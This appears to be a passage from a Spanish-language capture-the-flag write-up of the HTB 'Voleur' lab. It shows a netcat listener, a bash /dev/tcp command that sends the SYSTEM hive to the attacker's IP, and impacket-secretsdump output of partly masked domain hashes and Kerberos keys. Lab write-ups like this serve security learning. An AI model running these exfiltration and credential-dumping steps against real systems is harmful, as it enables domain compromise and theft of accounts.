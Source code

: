 >>> Desde nuestra maquina

```bash
nc -lnvp 5555 > SYSTEM
```
>>> Desde la Instancia ssh

```bash
cat SYSTEM > /dev/tcp/10.10.14.152/5555
```

ahora usaremos `impacket-secretsdump` para obtener los hashes que necesitamos

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM local
```

```bash
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xbbdd1a***************b883d2d
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 898238************3f4569f40
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656******************259ad2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cf***************c089c0:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5db08******************2634d77:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5aeef2c64********************323c:::
voleur.htb\ryan.naylor:1103:aad3b435b51404eeaad3b435b51404ee:3988a7******************09976ef16:::
voleur.htb\marie.bryant:1104:aad3b435b51404eeaad3b435b51404ee:53978ec***************052d5f8:::
voleur.htb\lacey.miller:1105:aad3b435b51404eeaad3b435b51404ee:2ecfe5*********************749dd3:::
voleur.htb\svc_ldap:1106:aad3b435b51404eeaad3b435b51404ee:04933*****************80c1307:::
voleur.htb\svc_backup:1107:aad3b435b51404eeaad3b435b51404ee:f44fe33f6504******************027c573:::
voleur.htb\svc_iis:1108:aad3b435b51404eeaad3b435b51404ee:246566da92*****************89410:::
voleur.htb\jeremy.combs:1109:aad3b435b51404eeaad3b435b51404ee:7b4c3ae********************f64c0b3b4c:::
voleur.htb\svc_winrm:1601:aad3b435b51404eeaad3b435b51404ee:5d7e377177574*****************d421:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:f577668d58955ab********************7716cac917acbeebb
Administrator:aes128-cts-hmac-sha1-96:38af*******************f861b10cc
Administrator:des-cbc-md5:459*************dcd6b0
DC$:aes256-cts-hmac-sha1-96:65d713fde9ec5e1b1f**************e00c9dacd8bfc2cc7b00908b7
DC$:aes128-cts-hmac-sha1-96:fa76ee******************f451782
DC$:des-cbc-md5:64*************bff1c8
krbtgt:aes256-cts-hmac-sha1-96:2500eceb45dd5d2********************eeb0134e7d0b5b25b145
krbtgt:aes128-cts-hmac-sha1-96:04e5*****************d535c211
krbtgt:des-cbc-md5:34a***************86d20
voleur.htb\ryan.naylor:aes256-cts-hmac-sha1-96:0923b1bd1e***********************899073cc457191fdc74
voleur.htb\ryan.naylor:aes128-cts-hmac-sha1-96:6417*******************33a87aa2d1
voleur.htb\ryan.naylor:des-cbc-md5:43**********97a5b
voleur.htb\marie.bryant:aes256-cts-hmac-sha1-96:d8cb903cf9da9edd***********************05e8b8795b15d
voleur.htb\marie.bryant:aes128-cts-hmac-sha1-96:a65a1d******************953410f
voleur.htb\marie.bryant:des-cbc-md5:cdf****************220
voleur.htb\lacey.miller:aes256-cts-hmac-sha1-96:1b71b8173a*************************433be52ee1ad9e9
voleur.htb\lacey.miller:aes128-cts-hmac-sha1-96:aa4ac73***************dadef53066
voleur.htb\lacey.miller:des-cbc-md5:6e*************7675
voleur.htb\svc_ldap:aes256-cts-hmac-sha1-96:2f1281f59**********************bf0b8dfaa5910
voleur.htb\svc_ldap:aes128-cts-hmac-sha1-96:7841f6****************8edb69f
voleur.htb\svc_ldap:des-cbc-md5:1a***************776
voleur.htb\svc_backup:aes256-cts-hmac-sha1-96:c0e9b919f92f***********************cc44bb5d409786f
voleur.htb\svc_backup:aes128-cts-hmac-sha1-96:d6e195********************1cf4ddd
voleur.htb\svc_backup:des-cbc-md5:7ab*************f765e
voleur.htb\svc_iis:aes256-cts-hmac-sha1-96:77f1ce6c11*************************ff4c4ecc772258
voleur.htb\svc_iis:aes128-cts-hmac-sha1-96:265363*********************67137c1395
```